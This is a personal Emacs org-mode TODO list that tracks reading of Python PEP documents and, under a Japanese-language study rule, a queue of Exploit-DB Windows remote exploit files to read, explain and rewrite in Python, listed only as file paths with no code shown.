**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0323.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0324.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0325.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0326.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0327.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0328.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0329.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0330.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0331.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0332.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0333.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0334.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0335.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0336.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0337.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0338.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0339.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0340.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0341.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0342.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0343.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0344.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0345.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0346.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0347.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0348.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0349.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0350.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0351.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0352.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0353.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0354.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0355.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0356.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0357.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0358.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0359.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0360.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0361.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0362.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0363.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0364.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0365.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0366.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0367.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0368.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0369.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0370.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0371.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0372.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0373.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0374.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0375.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0376.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0377.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0378.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0379.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0380.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0381.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0382.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0383.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0384.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0385.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0386.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0387.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0389.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0390.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0391.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0392.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0393.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0394.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0395.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0396.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0397.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0398.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0399.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0400.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0401.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0402.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0403.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0404.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0405.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0406.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0407.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0408.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0409.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0410.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0411.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0412.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0413.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0414.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0415.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0416.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0417.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0418.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0419.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0420.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0421.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0422.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0423.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0424.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0425.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0426.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0427.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0428.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0429.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0430.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0431.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0432.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0433.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0434.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0435.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0436.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0444.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0628.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0666.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-0754.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3000.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3001.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3002.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3003.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3099.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3100.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3101.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3102.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3103.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3104.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3105.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3106.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3107.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3108.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3109.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3110.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3111.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3112.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3113.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3114.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3115.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3116.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3117.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3118.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3119.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3120.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3121.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3122.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3123.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3124.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3125.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3126.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3127.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3128.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3129.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3130.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3131.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3132.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3133.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3134.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3135.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3136.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3137.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3138.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3139.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3140.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3141.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3142.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3143.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3144.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3145.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3146.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3147.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3148.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3149.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3150.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3151.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3152.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3153.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3154.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3155.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3156.txt
**** TODO p:/Office/emacs/.emacs.d/data_e/code/python/pep/pep-3333.txt

*** exploitdb [0/2214]
   - Rule
# 一日 1 file source を読む
# source を読み改善できるところは改善する
# 説明を付ける
# python で書き直す

**** TODO file:/root/work/exploitdb/winremote/10007.html
**** TODO file:/root/work/exploitdb/winremote/10008.txt
**** TODO file:/root/work/exploitdb/winremote/10047.txt
**** TODO file:/root/work/exploitdb/winremote/10053.txt
**** TODO file:/root/work/exploitdb/winremote/10054.txt
**** TODO file:/root/work/exploitdb/winremote/10056.py
**** TODO file:/root/work/exploitdb/winremote/10070.php
**** TODO file:/root/work/exploitdb/winremote/10073.py
**** TODO file:/root/work/exploitdb/winremote/10079.txt
**** TODO file:/root/work/exploitdb/winremote/10080.txt
**** TODO file:/root/work/exploitdb/winremote/10098.py
**** TODO file:/root/work/exploitdb/winremote/10099.py
**** TODO file:/root/work/exploitdb/winremote/100.c
**** TODO file:/root/work/exploitdb/winremote/10162.py
**** TODO file:/root/work/exploitdb/winremote/10235.py
**** TODO file:/root/work/exploitdb/winremote/10258.pl
**** TODO file:/root/work/exploitdb/winremote/10269.html
**** TODO file:/root/work/exploitdb/winremote/1026.cpp
**** TODO file:/root/work/exploitdb/winremote/1028.c
**** TODO file:/root/work/exploitdb/winremote/10340.pl
**** TODO file:/root/work/exploitdb/winremote/1035.c
**** TODO file:/root/work/exploitdb/winremote/10365.rb
**** TODO file:/root/work/exploitdb/winremote/10375.html
**** TODO file:/root/work/exploitdb/winremote/10380.pl
**** TODO file:/root/work/exploitdb/winremote/10394.py
**** TODO file:/root/work/exploitdb/winremote/103.c
**** TODO file:/root/work/exploitdb/winremote/10434.py
**** TODO file:/root/work/exploitdb/winremote/10542.py
**** TODO file:/root/work/exploitdb/winremote/1066.cpp
**** TODO file:/root/work/exploitdb/winremote/10715.rb
**** TODO file:/root/work/exploitdb/winremote/1075.c
**** TODO file:/root/work/exploitdb/winremote/10765.py
**** TODO file:/root/work/exploitdb/winremote/10791.py
**** TODO file:/root/work/exploitdb/winremote/1079.html
**** TODO file:/root/work/exploitdb/winremote/1089.c
**** TODO file:/root/work/exploitdb/winremote/10911.py
**** TODO file:/root/work/exploitdb/winremote/1096.txt
**** TODO file:/root/work/exploitdb/winremote/10973.py
**** TODO file:/root/work/exploitdb/winremote/1099.pl
**** TODO file:/root/work/exploitdb/winremote/109.c
**** TODO file:/root/work/exploitdb/winremote/11027.pl
**** TODO file:/root/work/exploitdb/winremote/1102.html
**** TODO file:/root/work/exploitdb/winremote/11059.html
**** TODO file:/root/work/exploitdb/winremote/1108.pl
**** TODO file:/root/work/exploitdb/winremote/11138.c
**** TODO file:/root/work/exploitdb/winremote/11151.html
**** TODO file:/root/work/exploitdb/winremote/1115.pl
**** TODO file:/root/work/exploitdb/winremote/11167.py
**** TODO file:/root/work/exploitdb/winremote/11172.html
**** TODO file:/root/work/exploitdb/winremote/11173.txt
**** TODO file:/root/work/exploitdb/winremote/11179.rb
**** TODO file:/root/work/exploitdb/winremote/1118.c
**** TODO file:/root/work/exploitdb/winremote/11204.html
**** TODO file:/root/work/exploitdb/winremote/11210.rb
**** TODO file:/root/work/exploitdb/winremote/11220.py
**** TODO file:/root/work/exploitdb/winremote/11257.rb
**** TODO file:/root/work/exploitdb/winremote/11272.py
**** TODO file:/root/work/exploitdb/winremote/11293.py
**** TODO file:/root/work/exploitdb/winremote/112.c
**** TODO file:/root/work/exploitdb/winremote/1130.c
**** TODO file:/root/work/exploitdb/winremote/1131.c
**** TODO file:/root/work/exploitdb/winremote/11328.py
**** TODO file:/root/work/exploitdb/winremote/1132.c
**** TODO file:/root/work/exploitdb/winremote/11420.py
**** TODO file:/root/work/exploitdb/winremote/11422.rb
**** TODO file:/root/work/exploitdb/winremote/1144.html
**** TODO file:/root/work/exploitdb/winremote/11453.py
**** TODO file:/root/work/exploitdb/winremote/11457.pl
**** TODO file:/root/work/exploitdb/winremote/11468.py
**** TODO file:/root/work/exploitdb/winremote/1146.c
**** TODO file:/root/work/exploitdb/winremote/1147.pm
**** TODO file:/root/work/exploitdb/winremote/1149.c
**** TODO file:/root/work/exploitdb/winremote/11500.py
**** TODO file:/root/work/exploitdb/winremote/1150.pm
**** TODO file:/root/work/exploitdb/winremote/1151.pm
**** TODO file:/root/work/exploitdb/winremote/1152.pm
**** TODO file:/root/work/exploitdb/winremote/11539.py
**** TODO file:/root/work/exploitdb/winremote/11618.pl
**** TODO file:/root/work/exploitdb/winremote/11650.c
**** TODO file:/root/work/exploitdb/winremote/11661.txt
**** TODO file:/root/work/exploitdb/winremote/11668.rb
**** TODO file:/root/work/exploitdb/winremote/11683.rb
**** TODO file:/root/work/exploitdb/winremote/11694.txt
**** TODO file:/root/work/exploitdb/winremote/116.c
**** TODO file:/root/work/exploitdb/winremote/11742.rb
**** TODO file:/root/work/exploitdb/winremote/11750.html
**** TODO file:/root/work/exploitdb/winremote/11765.txt
**** TODO file:/root/work/exploitdb/winremote/1178.c
**** TODO file:/root/work/exploitdb/winremote/1179.c
**** TODO file:/root/work/exploitdb/winremote/117.c
**** TODO file:/root/work/exploitdb/winremote/1180.c
**** TODO file:/root/work/exploitdb/winremote/11820.pl
**** TODO file:/root/work/exploitdb/winremote/1183.c
**** TODO file:/root/work/exploitdb/winremote/1184.c
**** TODO file:/root/work/exploitdb/winremote/11857.c
**** TODO file:/root/work/exploitdb/winremote/11877.py
**** TODO file:/root/work/exploitdb/winremote/11879.txt
**** TODO file:/root/work/exploitdb/winremote/11886.py
**** TODO file:/root/work/exploitdb/winremote/1190.c
**** TODO file:/root/work/exploitdb/winremote/1193.pl
**** TODO file:/root/work/exploitdb/winremote/11973.txt
**** TODO file:/root/work/exploitdb/winremote/11974.py
**** TODO file:/root/work/exploitdb/winremote/119.c
**** TODO file:/root/work/exploitdb/winremote/1201.pl
**** TODO file:/root/work/exploitdb/winremote/12044.c
**** TODO file:/root/work/exploitdb/winremote/1210.pm
**** TODO file:/root/work/exploitdb/winremote/12117.txt
**** TODO file:/root/work/exploitdb/winremote/12119.pl
**** TODO file:/root/work/exploitdb/winremote/12152.pl
**** TODO file:/root/work/exploitdb/winremote/12156.txt
**** TODO file:/root/work/exploitdb/winremote/121.c
**** TODO file:/root/work/exploitdb/winremote/12202.html
**** TODO file:/root/work/exploitdb/winremote/12203.html
**** TODO file:/root/work/exploitdb/winremote/1223.c
**** TODO file:/root/work/exploitdb/winremote/12244.html
**** TODO file:/root/work/exploitdb/winremote/12244.txt
**** TODO file:/root/work/exploitdb/winremote/12247.html
**** TODO file:/root/work/exploitdb/winremote/12248.html
**** TODO file:/root/work/exploitdb/winremote/1224.html
**** TODO file:/root/work/exploitdb/winremote/12250.html
**** TODO file:/root/work/exploitdb/winremote/12308.txt
**** TODO file:/root/work/exploitdb/winremote/12309.txt
**** TODO file:/root/work/exploitdb/winremote/12310.txt
**** TODO file:/root/work/exploitdb/winremote/12312.rb
**** TODO file:/root/work/exploitdb/winremote/12320.txt
**** TODO file:/root/work/exploitdb/winremote/12331.txt
**** TODO file:/root/work/exploitdb/winremote/12332.pl
**** TODO file:/root/work/exploitdb/winremote/12367.html
**** TODO file:/root/work/exploitdb/winremote/12380.pl
**** TODO file:/root/work/exploitdb/winremote/123.c
**** TODO file:/root/work/exploitdb/winremote/12417.py
**** TODO file:/root/work/exploitdb/winremote/1243.c
**** TODO file:/root/work/exploitdb/winremote/12480.txt
**** TODO file:/root/work/exploitdb/winremote/12495.pl
**** TODO file:/root/work/exploitdb/winremote/12498.txt
**** TODO file:/root/work/exploitdb/winremote/124.pl
**** TODO file:/root/work/exploitdb/winremote/12511.txt
**** TODO file:/root/work/exploitdb/winremote/12512.py
**** TODO file:/root/work/exploitdb/winremote/12573.html
**** TODO file:/root/work/exploitdb/winremote/12580.txt
**** TODO file:/root/work/exploitdb/winremote/12581.txt
**** TODO file:/root/work/exploitdb/winremote/12582.txt
**** TODO file:/root/work/exploitdb/winremote/1260.pm
**** TODO file:/root/work/exploitdb/winremote/12614.txt
**** TODO file:/root/work/exploitdb/winremote/1262.pm
**** TODO file:/root/work/exploitdb/winremote/1264.pl
**** TODO file:/root/work/exploitdb/winremote/12657.txt
**** TODO file:/root/work/exploitdb/winremote/12663.html
**** TODO file:/root/work/exploitdb/winremote/12673.txt
**** TODO file:/root/work/exploitdb/winremote/1277.c
**** TODO file:/root/work/exploitdb/winremote/1279.pm
**** TODO file:/root/work/exploitdb/winremote/127.pl
**** TODO file:/root/work/exploitdb/winremote/12815.txt
**** TODO file:/root/work/exploitdb/winremote/12834.py
**** TODO file:/root/work/exploitdb/winremote/130.c
**** TODO file:/root/work/exploitdb/winremote/1313.c
**** TODO file:/root/work/exploitdb/winremote/1330.c
**** TODO file:/root/work/exploitdb/winremote/1332.pm
**** TODO file:/root/work/exploitdb/winremote/133.pl
**** TODO file:/root/work/exploitdb/winremote/1352.cpp
**** TODO file:/root/work/exploitdb/winremote/1357.diff
**** TODO file:/root/work/exploitdb/winremote/135.c
**** TODO file:/root/work/exploitdb/winremote/1365.pm
**** TODO file:/root/work/exploitdb/winremote/1366.pm
**** TODO file:/root/work/exploitdb/winremote/136.pl
**** TODO file:/root/work/exploitdb/winremote/1374.pl
**** TODO file:/root/work/exploitdb/winremote/1375.pl
**** TODO file:/root/work/exploitdb/winremote/1378.py
**** TODO file:/root/work/exploitdb/winremote/13808.txt
**** TODO file:/root/work/exploitdb/winremote/1380.py
**** TODO file:/root/work/exploitdb/winremote/13818.txt
**** TODO file:/root/work/exploitdb/winremote/1381.pm
**** TODO file:/root/work/exploitdb/winremote/13822.txt
**** TODO file:/root/work/exploitdb/winremote/13834.html
**** TODO file:/root/work/exploitdb/winremote/13903.py
**** TODO file:/root/work/exploitdb/winremote/1391.pm
**** TODO file:/root/work/exploitdb/winremote/13932.py
**** TODO file:/root/work/exploitdb/winremote/14013.txt
**** TODO file:/root/work/exploitdb/winremote/1408.pl
**** TODO file:/root/work/exploitdb/winremote/1413.c
**** TODO file:/root/work/exploitdb/winremote/1414.pl
**** TODO file:/root/work/exploitdb/winremote/14179.txt
**** TODO file:/root/work/exploitdb/winremote/1417.pl
**** TODO file:/root/work/exploitdb/winremote/14180.py
**** TODO file:/root/work/exploitdb/winremote/14181.py
**** TODO file:/root/work/exploitdb/winremote/14182.py
**** TODO file:/root/work/exploitdb/winremote/14194.cpp
**** TODO file:/root/work/exploitdb/winremote/14195.html
**** TODO file:/root/work/exploitdb/winremote/14200.html
**** TODO file:/root/work/exploitdb/winremote/1420.c
**** TODO file:/root/work/exploitdb/winremote/1421.cpp
**** TODO file:/root/work/exploitdb/winremote/14222.py
**** TODO file:/root/work/exploitdb/winremote/14248.py
**** TODO file:/root/work/exploitdb/winremote/14257.py
**** TODO file:/root/work/exploitdb/winremote/14267.txt
**** TODO file:/root/work/exploitdb/winremote/14269.html
**** TODO file:/root/work/exploitdb/winremote/14275.txt
**** TODO file:/root/work/exploitdb/winremote/14287.cpp
**** TODO file:/root/work/exploitdb/winremote/14309.html
**** TODO file:/root/work/exploitdb/winremote/14321.html
**** TODO file:/root/work/exploitdb/winremote/14385.html
**** TODO file:/root/work/exploitdb/winremote/14399.py
**** TODO file:/root/work/exploitdb/winremote/14400.py
**** TODO file:/root/work/exploitdb/winremote/14402.py
**** TODO file:/root/work/exploitdb/winremote/14412.rb
**** TODO file:/root/work/exploitdb/winremote/14416.html
**** TODO file:/root/work/exploitdb/winremote/14447.html
**** TODO file:/root/work/exploitdb/winremote/14451.rb
**** TODO file:/root/work/exploitdb/winremote/1448.pl
**** TODO file:/root/work/exploitdb/winremote/14492.c
**** TODO file:/root/work/exploitdb/winremote/14496.py
**** TODO file:/root/work/exploitdb/winremote/14505.html
**** TODO file:/root/work/exploitdb/winremote/14514.html
**** TODO file:/root/work/exploitdb/winremote/14519.html
**** TODO file:/root/work/exploitdb/winremote/14522.rb
**** TODO file:/root/work/exploitdb/winremote/1452.pm
**** TODO file:/root/work/exploitdb/winremote/14539.html
**** TODO file:/root/work/exploitdb/winremote/14547.txt
**** TODO file:/root/work/exploitdb/winremote/14551.html
**** TODO file:/root/work/exploitdb/winremote/14552.html
**** TODO file:/root/work/exploitdb/winremote/14553.html
**** TODO file:/root/work/exploitdb/winremote/14580.html
**** TODO file:/root/work/exploitdb/winremote/14586.html
**** TODO file:/root/work/exploitdb/winremote/1458.cpp
**** TODO file:/root/work/exploitdb/winremote/14599.txt
**** TODO file:/root/work/exploitdb/winremote/14600.html
**** TODO file:/root/work/exploitdb/winremote/14604.py
**** TODO file:/root/work/exploitdb/winremote/14605.html
**** TODO file:/root/work/exploitdb/winremote/1460.pm
**** TODO file:/root/work/exploitdb/winremote/14623.py
**** TODO file:/root/work/exploitdb/winremote/1462.cpp
**** TODO file:/root/work/exploitdb/winremote/1463.pm
**** TODO file:/root/work/exploitdb/winremote/14658.txt
**** TODO file:/root/work/exploitdb/winremote/1466.pl
**** TODO file:/root/work/exploitdb/winremote/14674.txt
**** TODO file:/root/work/exploitdb/winremote/14779.pl
**** TODO file:/root/work/exploitdb/winremote/14853.py
**** TODO file:/root/work/exploitdb/winremote/14856.txt
**** TODO file:/root/work/exploitdb/winremote/14857.txt
**** TODO file:/root/work/exploitdb/winremote/14878.html
**** TODO file:/root/work/exploitdb/winremote/14885.html
**** TODO file:/root/work/exploitdb/winremote/14886.py
**** TODO file:/root/work/exploitdb/winremote/14895.
**** TODO file:/root/work/exploitdb/winremote/14895.py
**** TODO file:/root/work/exploitdb/winremote/149.c
**** TODO file:/root/work/exploitdb/winremote/15001.html
**** TODO file:/root/work/exploitdb/winremote/15016.rb
**** TODO file:/root/work/exploitdb/winremote/1502.py
**** TODO file:/root/work/exploitdb/winremote/15042.py
**** TODO file:/root/work/exploitdb/winremote/15048.txt
**** TODO file:/root/work/exploitdb/winremote/1504.pm
**** TODO file:/root/work/exploitdb/winremote/15056.py
**** TODO file:/root/work/exploitdb/winremote/1505.html
**** TODO file:/root/work/exploitdb/winremote/1506.c
**** TODO file:/root/work/exploitdb/winremote/15071.txt
**** TODO file:/root/work/exploitdb/winremote/15072.rb
**** TODO file:/root/work/exploitdb/winremote/15073.rb
**** TODO file:/root/work/exploitdb/winremote/15168.rb
**** TODO file:/root/work/exploitdb/winremote/151.txt
**** TODO file:/root/work/exploitdb/winremote/1520.pl
**** TODO file:/root/work/exploitdb/winremote/15231.py
**** TODO file:/root/work/exploitdb/winremote/15235.html
**** TODO file:/root/work/exploitdb/winremote/15238.py
**** TODO file:/root/work/exploitdb/winremote/15241.txt
**** TODO file:/root/work/exploitdb/winremote/15266.txt
**** TODO file:/root/work/exploitdb/winremote/15288.txt
**** TODO file:/root/work/exploitdb/winremote/15292.rb
**** TODO file:/root/work/exploitdb/winremote/15296.txt
